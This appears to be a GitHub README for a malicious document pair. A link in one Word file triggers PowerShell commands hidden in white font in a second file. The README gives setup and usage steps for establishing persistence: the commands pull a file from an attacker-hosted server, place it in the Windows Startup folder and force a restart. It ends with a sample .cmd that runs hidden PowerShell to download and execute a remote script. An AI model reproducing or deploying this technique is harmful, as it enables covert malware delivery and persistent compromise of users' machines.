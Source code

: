 # SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in Document1.docx. Scenario: The Document1 commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. A restart command is the last step to execute the .cmd file upon login from user.

# Remember
Document1 is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. Document1 cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill Document1.

# Example .cmd
@echo off

powershell.exe -windowstyle hidden "(iwr https://<YOUR IP>/DIRECTORY/filename -UseBasicParsing) | iex"
